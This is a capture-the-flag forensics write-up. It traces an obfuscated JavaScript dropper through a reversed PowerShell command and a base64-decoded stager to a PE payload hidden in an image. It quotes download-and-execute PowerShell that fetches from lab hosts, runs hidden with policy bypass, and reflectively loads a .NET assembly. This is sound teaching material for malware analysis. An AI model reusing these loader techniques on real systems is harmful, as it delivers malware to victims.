




## Forensics
### One Step Closer
> Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. 

We are provided with vaccine.js file which is somehow obfuscated, so after analysing the file we come across a url `http://infected.human.htb/d/BKtQR`

```javascript
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.open("GET", "http://infected.human.htb/d/BKtQR", false);
```

Let's try to download the file using the docker ip and port 

```shell
http://94.237.57.242:50411/d/BkQR
```

After making the request we get a very huge obfuscated file which is hard to read. So i scrolled until the end and found this powershell code written in reverse. 

```powershell
StrReverse("'DxujWO$ dnammoc- eliforPoN- ssapyb ycilopnoitucexe- neddih elytswodniw- exe.llehsrewop")
```

The file was suspicious, hard to read and understand "obviously because it was written by the zombies" i decided to upload it to virus total and see the behaviour.


Process 4080 reveals the command executed by the file. it is base64 encoded and so we decode it
```powershell
4080 - "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -command '$Codigo = ''Jem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tYmllcGUem9tYmllcVQByem9tYmllcGwem9tYmllcIe 
...
<SNIP>
...
mllc='';$OWjuxd = [system.Text.encoding]::Unicode.GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD'
```

From the code we can see that em9tYmllc is being replaced with A and so we replace all the instances of em9tYmllc with A to get a clean base64 encoded string "free from any zombie virus"

```powershell
GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));
```

```shell
JABpAG0AYQBnAGUAVQByAGwAIAA9ACAAJwBoAHQAdABwADoALwAvAGkAbgBmAGUAYwB0AGUAZAAuAHoAbwBtAGIAaQBlAC4AaAB0AGIALwBXAEoAdgBlAFgANwAxAGEAZwBtAE8AUQA2AEcAdwBfADEANgA5A
...
<SNIP>
...
wBnAD0AJwAgACwAIAAnAGQAZgBkAGYAZAAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABhAGQAcwBhACcAIAAsACAAJwBkAGUAJwAgACwAIAAnAGMAdQAnACkAKQA=
``` 

We then decode the base64 string and discover another powershell script

```powershell
d5dff21b17ee-1f48-5c74-c934-d73c2a63=nekot&aidem=tla?txt.refsnart/o/moc.topsppa.f93c6-gnikcah/b/0v/moc.sipaelgoog.egarotsesaberif//:sptth$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag = '<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes = [System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('Fiber.Home');$method = $type.GetMethod('VAI').Invoke($null, [object[]] ('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=' , 'dfdfd' , 'dfdf' , 'dfdf' , 'dadsa' , 'de' , 'cu')
```

From the script we see that its trying to download an image from this `http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg` url and so we try to get it using our docker ip and port



Next we use exiftool and find some interesting stuff.

```shell
> exiftool WJveX71agmOQ6Gw_1698762642.jpg
ExifTool Version Number         : 12.70
File Name                       : WJveX71agmOQ6Gw_1698762642.jpg
Directory                       : .
File Size                       : 2.9 MB
File Modification Date/Time     : 2023:12:06 13:51:30+03:00
File Access Date/Time           : 2023:12:10 19:25:29+03:00
File Inode Change Date/Time     : 2023:12:10 19:25:24+03:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
```

2.9 MB i knew something must be hidden in the file so i tried to change the image extension to .png and used zsteg 

```shell
> zsteg img.png
extradata:0         .. text: "<<BASE64_START>>TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAA
...
<SNIP>
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEhUQnswbjNfU3QzcF9jbDBzM3JfdDBfdGgzX2N1cjN9Cg==<<BASE64_END>>\n\n"
```

This was a very large base64 string. I took the string to cyber chef for a nice "zombie recipe"



We can see `MZ` meaning it is a windows executable file.So i decided to just continue scrolling and boom there's the cure to the zombie virus.



These zombies really used their BRAINS to BYTE the system.



